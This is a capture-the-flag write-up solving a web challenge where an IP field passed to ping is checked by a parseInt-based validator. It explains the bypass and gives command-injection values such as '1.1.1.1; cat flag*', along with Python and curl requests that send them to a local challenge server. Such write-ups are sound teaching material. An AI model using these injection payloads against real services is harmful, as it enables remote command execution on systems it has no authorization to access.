 # Solution
- We see that the challenge expects an IP from us and it will ping it.
- Our target is to inject something to the IP field so we can have RCE. (Remote Code Execution)
- We analyze the website's check function:
```js
function checkIP(ip) {
    if (typeof ip !== 'string') 
        return false;
    if (ip.indexOf('.') == -1)
        return false;
    let parts = ip.split('.');
    if (parts.length !== 4) 
        return false;
    for (let part of parts) {
        let num = parseInt(part);
        if (isNaN(num) || num < 0 || num > 255)
            return false;
    }
    return true;
}
```
- It checks if the IP is a string, if it has 4 parts separated by dots, and if each part is a number between 0 and 255.
- The problem with `parseInt` is that it will ignore everything after the first non-numeric character, so `parseInt('256 hello')` will return `256`.
- We can inject commands by: `1.1.1.1; ls -lah`
- To read the flag, we can use: `1.1.1.1; cat flag*`. (We use the wildcard `*` since we aren't allowed any extra `.` in the IP)
```python
from requests import post
print(post('http://localhost:1337/ping', json={'ip': '1.1.1.1; cat flag*'}).json()['result'].split('\n')[-1])
```
```bash
curl 'http://localhost:1337/ping' \
  -H 'Content-Type: application/json' \
  --data-raw '{"ip":"1.1.1.1; cat flag*"}'
```